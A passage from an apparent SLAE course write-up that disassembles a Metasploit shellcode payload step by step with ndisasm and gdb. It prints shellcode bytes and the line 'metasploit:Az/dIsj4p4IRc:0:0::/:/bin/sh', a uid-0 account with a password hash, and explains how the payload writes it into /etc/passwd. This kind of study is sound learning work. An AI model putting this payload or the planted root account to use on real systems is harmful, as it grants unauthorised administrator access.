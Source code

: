 0000005E <span style="color:#FF7F50;">58</span>     pop eax 
0000005F <span style="color:#FF7F50;">CD80</span>   int 0x80</pre>
<p style="text-align:justify;">in such case we can also use python to convert the opcodes in ASCII text in order to reveal the assembly code</p>
<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 14px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;"><span style="color:#cd0000;"><b>root@kali</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment5</b></span># echo -ne "\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a\x01\x58\xcd\x80" | ndisasm -b 32 -p intel -
00000000 59     pop ecx
00000001 8B51FC mov edx,[ecx-0x4]
00000004 6A04   push byte +0x4
00000006 58     pop eax
00000007 CD80   int 0x80
00000009 6A01   push byte +0x1
0000000B 58     pop eax
0000000C CD80   int 0x80</pre>
<p style="text-align:justify;">The <strong>pop ecx</strong> instruction above will store the string in <strong>ecx</strong> register</p>
<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 14px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;"><strong>metasploit:Az/dIsj4p4IRc:0:0::/:/bin/sh</strong></pre>
<p style="text-align:justify;">Also from <strong>gdb-peda </strong>we get the output below</p>
<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 14px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">gdb-peda$ x/s $ecx
0x40406b &lt;shellcode+43&gt;: "<span style="color:#FF7F50;">metasploit:Az/dIsj4p4IRc:0:0::/:/bin/sh</span>\nY\213Q\374j\004X\315\200j\001X\315\200"</pre>
<p style="text-align:justify;">Then the instruction <strong>mov edx, [ecx-0x4]</strong> will move the value <strong>0x28 </strong>into<strong> edx </strong>register</p>
<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 14px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;"><strong>mov edx,[ecx-0x4]       <span style="color:#33cccc;">; move 0x28 into edx register </span></strong></pre>
<p style="text-align:justify;">In detail, if we check the <strong>ndisasm</strong> output we see that the instruction right after the <strong>call 0x53</strong> instruction appears to be at offset <strong>0000002B</strong>. Moreover, the<strong> ecx</strong> register after the <strong>pop ecx</strong> instruction holds the opcodes at offset <strong>0000002B</strong> because as we know the <strong>call</strong> instruction pushes the memory address of the next instruction on the stack. The<strong> edx </strong>register will now hold the contents in memory address<strong> 00000027</strong> <strong>( 0x2B - 0x4 ). </strong>Also from <strong>gdb</strong> we can confirm that <strong>0x28</strong>&nbsp;is present in <strong>[ecx-4]</strong> as seen below</p>
<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 14px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">gdb-peda$ <strong>x/x $ecx</strong>
0x40406b &lt;shellcode+43&gt;:  <span style="color:#FF7F50;">0x6d</span>
gdb-peda$ <strong>x/-4x $ecx</strong>
0x404067 &lt;shellcode+39&gt;:  <span style="color:#FF7F50;">0x28</span>    0x00    0x00    0x00
gdb-peda$</pre>
<p style="text-align:justify;">The <strong>edx</strong> register will be used as the third argument of the<strong> write</strong> system call which refers to the size of the string that will be inserted inside the <strong>/etc/passwd</strong> file. The decimal value of <strong>0x28</strong> is <strong>40</strong> which indicates the size of the following string</p>